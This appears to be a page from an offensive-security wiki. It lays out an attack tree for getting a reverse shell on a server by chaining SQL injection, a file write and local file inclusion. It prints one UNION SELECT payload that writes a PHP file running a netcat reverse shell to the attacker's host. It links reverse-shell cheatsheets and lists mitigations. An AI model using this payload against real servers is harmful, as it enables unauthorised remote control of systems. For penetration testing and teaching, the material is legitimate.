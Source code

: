 # Get shell and control target server

## Attack tree

```text
1 Netcat installed on both systems (hacking and target machines) (AND)
    1.1 Install netcat on both systems (AND)
    1.2 Create a reverse shell (AND)
    1.3 Setup a netcat listener on the hacking machine
2 SQL injection writing payload to server (AND)
    2.1 Find out if the database is vulnerable (AND)
        1.1.1 Inject data in the query without breaking it
    2.2 Find the amount of columns (AND)
    2.3 Find which columns accept queries (AND)
    2.4 Build an UNION SELECT SQL segment (AND)
    2.5 Inject SQL statements into the column (AND)
    2.6 Post exploitation
3 Use file inclusion vulnerability of any website on the server to run the payload
    3.1 Connect to the listener from the target machine (AND)
    3.2 Post exploitation
```
## Example SQL segments

PHP (and nc):
```text
-1' UNION SELECT '<?passthru("nc -e /bin/sh/ <IP hacking server> <port>");?>',null into outfile '/tmp/reverse.php' /*
```

## Notes

Works only in combination with a [local file inclusion vulnerability](../application/Local-file-inclusion.md).

## Tools
* [Burp suite CE proxy](https://portswigger.net/burp/documentation/desktop/getting-started/intercepting-http-traffic)

## Cheatsheets
* [Weevely cheatsheet](cheatsheets:docs/payloads/weevely)
* [MSFvenom cheatsheet](https://www.offensive-security.com/metasploit-unleashed/Msfvenom/)
* [Detect number of columns](cheatsheets:docs/databases/number-of-columns)
* [Union SQLi queries](cheatsheets:docs/databases/union-select)
* [Local file inclusion](cheatsheets:docs/application/lfi)
* [Reverse shell commands](cheatsheets:docs/application/reverse-shell-commands)
* [Path Traversal Cheat Sheet: Windows](https://www.akimbocore.com/article/windows-path-traversal-cheat-sheet/)
* [Path Traversal Cheat Sheet: Linux](https://www.akimbocore.com/article/linux-path-traversal-cheat-sheet/)

## Mitigations
* [Parameterised statements](app-mitigations:docs/databases/parameterised)
* [Input validation](app-mitigations:docs/databases/Input-validation)
* [Local file inclusion](app-mitigations:docs/coding/Local-file-inclusion)
